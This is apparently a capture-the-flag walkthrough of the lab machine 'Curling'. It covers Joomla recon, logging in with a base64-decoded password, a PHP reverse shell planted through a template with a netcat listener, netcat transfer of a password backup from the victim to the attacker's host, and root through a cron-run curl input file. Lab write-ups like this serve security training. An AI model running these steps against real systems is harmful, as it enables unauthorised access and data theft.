


# Curling

# Recon

### PortScan

`nmap -sC -sV 10.10.10.150`

## Web ( 80 )

### Directory discover

`gobuster dir -u http://10.10.10.150/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

### Version

Version found inside `README.txt` file

### Scan Joomla

`joomscan --ec -u http://10.10.10.150/`

### Source code

Some `secret.txt` file

`view-source:http://10.10.10.150/`

Decode this string

`echo "Q3VybGluZzIwMTgh" | base64 -d`

`Curling2018!`

### Admin login

This message is signed by Floris so maybe the username is `floris`

Login using `floris:Curling2018!`

## Foot Hold

Go to the templates page

I used this template but there is another one

Now put here some PHP RCE, this one is from pentestmonkey

Open the `netcat` listener

`nc -lvnp 4444`

Access to `http://10.10.10.150/index.php`

And we got the shell

## Privilege Escalation

### Upgrade shell

`python3 -c "import pty;pty.spawn('/bin/bash')”`

### Backup file

`cat /home/floris/password_backup`

Send that file to you local machine, i used nc to do that

Local machine

`nc -lp 1234 > password_backup`

On the victim

`nc -w 3 {LOCAL-IP} 1234 < password_backup`

`xxd -r password_backup > password.unhex`

Change the extension to `.bz2` and unzip it

Now lets use gzip to unzip

Unzip it again

Found the password

Now we can login to `floris` using this password

`ssh floris@curling.htb`

### Enumeration

Run the `pyps64` to look at some cronjob, and we had this curl that uses inputs from a file called input

### Root

We can modify that file so we can use this payload and when it will run again the output gonna be inside the report file

Read the report file to get the flag

